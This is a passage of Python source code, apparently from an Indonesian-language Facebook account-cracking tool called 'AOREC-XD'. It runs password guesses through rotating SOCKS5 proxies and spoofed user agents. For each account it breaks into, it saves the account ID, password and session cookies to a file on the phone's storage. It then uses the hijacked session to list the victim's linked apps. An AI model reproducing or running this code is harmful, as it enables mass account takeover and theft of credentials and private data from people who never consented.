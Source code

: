 					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/4MBF-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					print('\n')
					statusok = f'[â€¢] ID       : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES  : {kuki}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='AOREC-XD OK'))
					ok+=1
					break
				elif 'ya' in taplikasi:
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/4MBF-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					user=idf
					infoakun = ""
					session = requests.Session()
					cek2 = session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies=coki,headers=headapp).text
					cek =session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies=coki,headers=headapp).text
					infoakun += (f"\n[bold cyan][â€¢] LIST ACTIVE APPLICATIONS :[/bold cyan] \n")
					apkaktif=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek))
					nok=1
					for muncul in apkaktif:
						infoakun+= (f"[bold cyan][{nok}] {muncul[0]} {muncul[1]}[/bold cyan]\n")
						nok+=1

					hit=0
					infoakun += (f"\n[bold yellow][â€¢] LIST EXPIRED APPLICATIONS :[/bold yellow]\n")
					apkexp=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek2))
					hit=0
					for muncul in apkexp:
						hit+=1
						infoakun += (f"[bold yellow][{hit}] {muncul[0]} {muncul[1]}[/bold yellow]\n")
					print('\n')
					statusok = f'[bold green][â€¢] ID       : {idf}\n[â€¢] PASSWORD : {pw}\n[â€¢] COOKIES  : {kuki}[/bold green]\n{infoakun}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='[bold green]AOREC-XD OK[/bold green]'))
					ok+=1
					break


			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
#----------------------[ METHODE-MTOUCH+MOBILE-4 ]-----------------#
def crackmbasic(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	nip=random.choice(prox)
	proxs= {'http': 'socks5://'+nip}
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	sys.stdout.write('\r%s â˜¬ %s/%s â˜¬ OK:%s â˜¬ CP:%s â˜¬ %s%s%s â˜¬'%(bi,loop,len(id2),ok,cp,int(pers),str(fff),x));sys.stdout.flush()
	for pw in pwv:
		try: